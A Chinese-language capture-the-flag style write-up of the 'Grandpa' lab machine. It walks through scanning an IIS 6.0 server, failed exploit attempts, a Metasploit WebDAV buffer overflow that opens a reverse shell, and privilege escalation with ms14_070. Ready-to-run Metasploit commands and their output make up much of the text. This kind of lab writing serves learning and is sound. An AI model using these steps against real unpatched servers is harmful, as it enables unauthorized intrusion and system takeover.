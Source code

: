 ```yaml
---
title: Grandpa（msf栈溢出）
categories:
- training
tags:
- training
---
```

10.10.10.14

## scan
`80/tcp open  http    Microsoft IIS httpd 6.0`

只开了一个80端口，iis 6.0让我想到了文件解析漏洞

os scan:Running (JUST GUESSING): Microsoft Windows 2003|2008|2000|XP (91%)

## web
anyway，先扫一下web目录吧~~
只有一个images目录，403

信息很少啊，估计是中间件漏洞，于是搜一下IIS 6.0 exploit，以及“microsoftofficewebserver header: 5.0_Pub”

nikto scan result:
```
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV

```
注意dav

#### trying1: 远程栈溢出
```
searchsploit iis 6.0
searchsploit -m exploits/windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow  
利用失败
```
#### trying2: Microsoft FrontPage匿名登陆
`OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.`
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-06/1.PNG)
搜索一下Microsoft FrontPage 

auxiliary/scanner/http/frontpage_login

结果
```
[*] 10.10.10.14:80        - http://10.10.10.14/ may not support FrontPage Server Extensions
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
#### 什么是WebDAV？
WebDAV 是 HTTP/1.1 协议的扩展，它允许客户机执行**远程** Web 内容制作操作。WebDAV 是对 HTTP/1.1 协议的扩展，添加了新的 HTTP 方法和标头，支持任意类型的 Web 制作，不仅支持 HTML 和 XML，还支持文本、图形、电子表格等格式。
[Webdav安全配置相关与漏洞利用](https://blog.csdn.net/u014270687/article/details/45798227)

#### trying3: webdav put上传
```
exploit/windows/iis/iis_webdav_upload_asp

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Checking /metasploit250598085.asp
[*] Uploading 611136 bytes to /metasploit250598085.txt...
[-] Upload failed on /metasploit250598085.txt [500 Internal Server Error]
[*] Exploit completed, but no session was created.
```
## 获得一个shell
远程栈溢出
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-06/2.PNG)
当时python的exp执行失败，就以为该漏洞不存在==

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOST 10.10.10.14
run
getuid
pwd
sysinfo
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-06/3.PNG)

## 提权
```
search suggester

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 28 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
尝试后，成功提权
```
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION 3
set LHOST tun0
run
ps 查看进程
cd C:\Documents and Settings\Harry\Desktop
cat user.txt
cd C:\Documents and Settings\Administrator\Desktop
cat root.txt
```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-06/4.PNG)

## 总结
学习了msf的windows提权：search suggester

control z + y，将meterpreter到后台进程。

sessions -i 3，转到meterpreter

在执行缓冲区溢出时，执行一遍失败是很正常的，多试几遍~~